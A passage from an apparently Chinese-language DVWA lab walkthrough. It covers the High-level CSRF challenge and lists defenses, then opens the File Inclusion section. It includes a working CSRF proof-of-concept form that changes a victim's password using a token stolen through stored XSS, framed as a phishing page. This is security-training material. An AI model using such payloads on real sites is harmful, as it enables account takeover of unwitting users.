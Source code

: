 尝试一下放在反射型xss。

钓鱼页面

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/dvwa/vulnerabilities/csrf/">
      <input type="hidden" name="password&#95;new" value="123" />
      <input type="hidden" name="password&#95;conf" value="123" />
      <input type="hidden" name="Change" value="Change" />
	  <input type="hidden" name="user_token" value="17936e9fa62e18734489c63edbcdfd16" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

只要将利用xss获取的token放入表单中就可以了

可以将xss的payload放在store类xss中，这样我就可以不断的获取token。

这个攻击需要两步。

第一步，受害者点击xss页面，token泄露。

第二步，受害者点击钓鱼页面，发生恶意修改密码。



不过话说回来，我都能通过xss拿到token了，如果要是可以拿走cookie，那我就能改他密码了，即不用第二步。

### Impossible

在impossible难度下，多加了一个旧密码的验证。

### 防御方式

1.对请求头部里的referer字段进行验证，确保请求来自受信任的域名。

2.设置不可伪造的csrf_token，用来验证请求是否合法。

3.如果是修改密码或其他修改重要信息的页面，可以要求用户输入一个可以来验证身份的信息。

## File Inclusion

文件包含漏洞，页面带有文件包含的功能，攻击者可以让页面去包含一些恶意的页面或通过协议去获取敏感信息，甚至获取webshell。

靶场提给的场景是一个带有文件包含功能的页面，用户可以包含三个网站提供的文件，分别为file1.php，file2.php，file3.php。

### Low

没有做任何防护，可以去包含服务器上的敏感文件，或者使用http/https协议去远程包含恶意文件，还可以使用伪协议去执行代码或获取文件。

### Medium
